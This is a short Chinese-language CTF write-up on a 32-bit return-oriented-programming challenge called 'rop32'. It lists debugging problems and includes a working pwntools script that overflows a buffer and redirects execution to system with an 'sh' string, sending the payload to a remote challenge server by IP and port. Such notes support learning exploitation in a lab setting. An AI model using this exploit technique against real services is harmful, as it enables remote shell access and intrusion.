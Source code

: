 

### rop32

- 下载glibc失败：download_old

- read之后字符串储存在哪里？

  ​	可以指定read函数参数，将字符串储存到那里

- gdb无法调试

  ```
  Reading symbols from ./rop32...
  (No debugging symbols found in ./rop32)
  ```
  
- read大小限制了读写的大小，如何把payload传进去

​		/bin/sh没有成功传输：超出了读取范围

​		`sh: 1: Syntax error: Unterminated quoted string`

​		函数的plt和参数之间有一个4bit的偏差，但是也有没有偏差的函数[pop&ret](https://blog.csdn.net/qq_37340753/article/details/81585083?spm=1001.2101.3001.6650.13&utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromBaidu%7ERate-13-81585083-blog-54922838.pc_relevant_aa&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromBaidu%7ERate-13-81585083-blog-54922838.pc_relevant_aa&utm_relevant_index=14)

​		

```
from pwn import *

context(os='linux',arch='x86',log_level='debug')
content = 0

if content == 1:
    giacomo = process('./rop32')
else:
    giacomo = remote("124.223.158.81",27003)

def main():
    # gdb.attach(giacomo, 'b* 0x80491B9')
    # pause()
    system = 0x8049070
    sh = 0x804c024
    payload = b'a'*0x20 + p32(0x80491E7) +p32(sh)
    giacomo.sendlineafter('Go Go Go!!!\n',payload)
    giacomo.interactive()


main()
```

### rop64
